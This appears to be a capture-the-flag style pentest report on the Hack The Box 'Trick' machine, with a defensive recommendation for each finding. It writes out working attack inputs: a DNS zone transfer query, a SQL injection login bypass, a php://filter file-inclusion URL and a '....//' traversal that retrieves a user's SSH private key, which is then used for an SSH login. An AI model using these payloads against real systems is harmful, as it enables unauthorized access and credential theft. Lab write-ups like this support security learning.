










<div align='center'>

# **HTB Trick Pentest Report**

</div>

## **HTB-Trick-01: DNS Zone Transfer Vulnerbility [Low]**

### **Description and Impact**

Due to miscongfiguration of DNS server, the DNS zone transfer is enabled. This allows an attacker to retrieve the entire DNS zone file, which contains all the DNS records for the domain. This can lead to a lot of potential attack vectors.

### **Steps to Reprocedure**

1.  Use `nslookup` to discover the domain name `trick.htb`



2.  Use `dig` to query the DNS server for the zone transfer, `preprod-payroll.trick.htb` is revealed.

        dig axfr @10.10.11.166 trick.htb



3.  Add the domain name to `/etc/hosts` file



4.  Access the domain name `preprod-payroll.trick.htb` in the browser



### **Recommendations**

1.  Only allow a zone transfer from trusted IPs. For example:

Navigate to `/etc/named.conf` and add the following line:

        ACL trusted-servers 
    {  
        10.10.11.166; //ns  
    };
    zone trick.htb
    {  
        type master;   file "zones/zonetransfer.me"; 
        allow-transfer { trusted-servers; };  
    };

2.  Use Transaction SIGnatures (TSIG) for zone transfers.

### **References**

1. https://www.cira.ca/resources/anycast/guide-how/using-transaction-signatures-tsig-secure-dns-server-communication
2. https://beaglesecurity.com/blog/vulnerability/dns-zone-transfer.html

## **HTB-Trick-02: SQL Injection Vulnerbility on payroll page leads to compromising admin's account [High]**

### **Description and Impact**

The payroll login page is vulnerable to SQL injection which leads to access of an admin's dashboard page. This allows an attacker to get access to sensitive information.

### **Root-cause Analysis**

In the file `/var/www/payroll/admin_class.php`, there are two login functions:

```php
function login(){
    extract($_POST);
    $qry = $this->db->query("SELECT * FROM users where username = '".$username."' and password = '".$password."' ");
    if($qry->num_rows > 0){
        foreach ($qry->fetch_array() as $key => $value) {
            if($key != 'passwors' && !is_numeric($key))
                $_SESSION['login_'.$key] = $value;
        }
            return 1;
    }else{
        return 3;
    }
}
function login2(){
    extract($_POST);
    $qry = $this->db->query("SELECT * FROM users where username = '".$email."' and password = '".md5($password)."' ");
    if($qry->num_rows > 0){
        foreach ($qry->fetch_array() as $key => $value) {
            if($key != 'passwors' && !is_numeric($key))
                $_SESSION['login_'.$key] = $value;
        }
            return 1;
    }else{
        return 3;
    }
}
```

The `$username`, `$email`, and `$password` are not sanitized before being used in the SQL query. This allows an attacker to inject SQL code into the query to get all the rows of the table. Therefore, the attacker can bypass the login check.



### **Steps to Reprocedure**

1.  Access the payroll page `http://preprod-payroll.trick.htb/`

2. Login with the following credentials:

        username: ' or 1=1 -- -
        password: 123

The attacker get access to the admin's dashboard page.



### **Recommendations**

1.  Use prepatred statements to prevent SQL injection.

```php
$qry = $this->db->prepare("SELECT * FROM users where username = ? and password = ?");
$qry->bind_param('ss', $username, $password);
$qry->execute();
$result = $qry->get_result(); // get the mysqli result
$data = $result->fetch_assoc(); // fetch data
```

2.  Use ORM instead of getting raw query.

### **References**

1. https://www.php.net/manual/en/mysqli.quickstart.prepared-statements.php
2. https://propelorm.org/

## **HTB-Trick-03: Local File Inclusion at admin's dashboard page [Medium]**

### **Description and Impact**

The admin's dashboard page is vulnerable to local file inclusion. This allows an attacker to view the source code of the php files.

### **Root-cause Analysis**

In the file `/var/www/payroll/index.php`, at line 45 and 46, we have:

```php
<?php $page = isset($_GET['page']) ? $_GET['page'] : 'home'; ?>
<?php include $page.'.php'?>
```

The `$page` variable is not sanitized before being used in the `include` function. This allows an attacker to get the content of any file on the server using `php:\\filter`.

### **Steps to Reprocedure**

1.  Access the admin's dashboard page `http://preprod-payroll.trick.htb/index.php?page=php://filter/convert.base64-encode/resource=index`. The attacker get the base64 encoded content of the file `index.php`.



2. Use [CyberChef](https://gchq.github.io/CyberChef/) to decode the base64 encoded content.



### **Recommendations**

1.  If possible, do not permit file paths to be appended directly. Make them hard-coded or selectable from a limited hard-coded path list via an index variable

### **References**

1. https://brightsec.com/blog/local-file-inclusion-lfi/
2. https://www.php.net/manual/en/function.include.php

## **HTB-Trick-04: Local File Inclusion at `preprod-marketing.trick.htb` [High]**

### **Description and Impact**

The `preprod-marketing.trick.htb` is vulnerable to local file inclusion. This allows an attacker to get an SSH private key of user 'michael'. Therefore, the attacker can login to the server as 'michael' user and execute remotely.

### **Root-cause Analysis**

In the file `/var/www/market/index.php`, at line 8, we have:

```php
include ("/var/www/market/".str_replace("../","",$file));
```

This can bypass by using `....//`

```php
<?php 
$file = '....//....//....//....//etc/passwd';
echo("/var/www/market/".str_replace("../", "", $file));
# output: /var/www/market/../../../../etc/passwd => /etc/passwd
?>
```

### **Steps to Reprocedure**

1.  Access the page `http://preprod-marketing.trick.htb/index.php?file=....//....//....//....//home/michael/.ssh/id_rsa`, the attacker get the SSH private key of user 'michael'. 



2. Download the SSH private key

        wget http://preprod-marketing.trick.htb/index.php?file=....//....//....//....//home/michael/.ssh/id_rsa -O id_rsa

3. Change the permission of the SSH private key

        chmod 400 id_rsa

4. Login to the server as 'michael' user

        ssh michael@10.10.11.166 -i id_rsa



### **Recommendations**

1. **Whitelisting:** use verified and secured whitelist files and ignore everything else

2. **Use databases:** don’t include files on a web server that can be compromised, use a database instead

3. Use firewalls to block access to sensitive files.

### **References**

1. https://portswigger.net/web-security/file-path-traversal
2. https://brightsec.com/blog/local-file-inclusion-lfi/

